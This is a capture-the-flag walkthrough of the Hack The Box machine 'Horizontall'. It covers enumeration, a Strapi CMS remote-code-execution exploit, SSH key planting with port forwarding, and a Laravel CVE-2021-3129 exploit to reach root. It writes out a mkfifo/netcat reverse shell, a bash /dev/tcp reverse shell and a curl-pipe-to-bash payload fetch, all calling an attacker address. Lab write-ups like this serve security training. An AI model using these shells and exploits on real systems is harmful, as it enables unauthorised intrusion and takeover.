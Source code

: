 ## Horizntall

Difficulty: Easy

### User Flag

```
rustscan -a horizontall.htb --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://user-images.githubusercontent.com/58514930/221204033-bf1aefe3-6129-46ee-a6cc-952b061b2c70.png)

<br>

Doing some subdomain enumeration, we discover "api-prod".

```
wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://horizontall.htb/ --hc 301 -H "Host:FUZZ.horizontall.htb"
```

Another way could be searching for the domain name in javascript files.

```
cat app.c68eb462.js | grep "horizontall"
```

![javascriptSubdomain](https://user-images.githubusercontent.com/58514930/221205260-8f584015-045a-4057-8211-4389f24a4de2.png)

<br>

```
gobuster dir -u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirb/big.txt -t 50
```

![gobuster](https://user-images.githubusercontent.com/58514930/221206512-a335941e-d904-4f54-a273-d3c72a8ac320.png)

<br>

Accessing /admin we find a Strapi CMS.

We can discover the version by accessing /admin/init.

![strapiCMS](https://user-images.githubusercontent.com/58514930/221207132-18b90eab-4a96-436c-9fc5-7036c89d65c6.png)

![strapVersion](https://user-images.githubusercontent.com/58514930/221207153-a1fa45cf-d757-47ee-a49a-fabac5fc2672.png)

<br>

Searching for vulnerabilities, we find [this exploit](https://www.exploit-db.com/exploits/50239) to RCE.  
Just use it and send a mkfifo reverse shell.

```
python3 exploit.py http://api-prod.horizontal.htb
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f
```

![exploitStrapi](https://user-images.githubusercontent.com/58514930/221207555-ec6da3c2-5c23-4d37-ac2d-def9368472eb.png)

### Root Flag

Doing some enumeration, we discover port 8000 is listening something.

![listeningPorts](https://user-images.githubusercontent.com/58514930/221207941-33993dff-3450-4bc2-aa0b-67572e404b3a.png)

<br>

We need to generate an SSH key to forward the port as we don't have the strapi password.

```
# On our machine
ssh-keygen -t rsa
```

Copy the content of .pub file inside ~/.ssh/authorized_keys in the victim machine.  

![generateKey](https://user-images.githubusercontent.com/58514930/221208575-56ae4da1-e024-414a-8831-e6d98fa0c127.png)

<br>

Now we forward the port 8000 from victim to 8001 on our localhost.

```
ssh -i strapi -L 8001:127.0.0.1:8000 strapi@10.10.11.105
```

Accessing it, there is a Laravel v8.

![laravel](https://user-images.githubusercontent.com/58514930/221208796-3825e6e1-da83-4773-9797-4eac1a1d0ad1.png)

<br>

Searching for exploits, we find [this one](https://github.com/nth347/CVE-2021-3129_exploit).

Create a "shell" file with "bash -i >& /dev/tcp/10.10.14.2/3333 0>&1;" since a direct reverse shell doesn't seems to work here.

```
./exploit.py http://localhost:8001 Monolog/RCE1 "curl 10.10.14.2:8000/shell | bash"
```

![gettingRoot](https://user-images.githubusercontent.com/58514930/221209721-88ddbbda-4691-40dc-bb9a-d2263aac2038.png)

![rootUser](https://user-images.githubusercontent.com/58514930/221209745-b43b6fe2-5d7b-4279-bb5b-d9b36431f574.png)
